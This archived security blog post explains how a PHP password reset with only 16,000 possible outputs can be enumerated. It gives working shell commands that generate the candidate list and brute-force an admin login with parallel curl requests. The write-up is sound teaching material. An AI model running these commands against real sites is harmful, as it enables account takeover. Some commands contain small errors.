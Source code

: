 ```yaml
---
id: 1059
title: 'Hacking crappy password resets (part 2)'
date: '2011-03-15T08:09:41-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=1059'
permalink: /2011/hacking-crappy-password-resets-part-2
categories:
    - Hacking
    - Passwords
    - Tools
---
```


Hey,

In my <a href='/blog/2011/hacking-crappy-password-resets-part-1'>last post</a>, I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset. 
<!--more-->
<h2>The code</h2>
First, let's take a look at the code:
<pre>
<font color="#ffa500">&lt;?php</font><br>
&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font>&nbsp;<font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br>
&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#80a0ff">// generate a random new pass</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;&quot;<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>&quot;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <font color="#80a0ff">// ...</font><br>
<font color="#ffa500">?&gt;</font><br>
</pre>

<h2>The vulnerability</h2>
The vulnerability lies in the password generation:
<pre>&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></pre>

The new password generated is the md5() of the literal string 'time' (*not* the current time, the *word* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:
<pre>$ seq <font color="#ffa0a0">1</font>&nbsp;<font color="#ffa0a0">16000</font>&nbsp;| xargs <font color="#ffa500">-I</font>&nbsp;XXX sh <font color="#ffa500">-c</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>&quot;</b></font></pre>

or, another way:
<pre>$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font>&nbsp;<font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500">&nbsp;</font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font>&nbsp;<font color="#ffff60"><b>echo</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>|</b></font>&nbsp;md5sum <font color="#ffff60"><b>|</b></font>&nbsp;cut -b1<font color="#ffa0a0">-6</font><br></pre>

(By the way, for more information on using xargs, check out a really awesome blog posting called <a href='http://teddziuba.com/2010/10/taco-bell-programming.html'>Taco Bell Programming</a> - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:
<pre>$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq</pre>

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site! 

<h2>The attack</h2>
You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for <a href='http://nmap.org/svn/scripts/http-enum.nse'>http-enum.nse</a>. If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise. 

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done! 

So, to download a single page, we'd use:
<pre>$ curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:
<pre>$ cat passwords.txt | xargs <font color="#ffa500">-P32</font>&nbsp;<font color="#ffa500">-I</font>&nbsp;XXX curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffff60"><b>\</b></font><br>
&nbsp;&nbsp;<font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named &lt;password&gt;.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

<pre>$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out</pre>

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:
<pre>$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out</pre>

And bam! We now know the password is "b19261". 

<h2>Conclusion</h2>
So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common. 

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of <a href='http://vimeo.com/20718776'>my talk</a>.
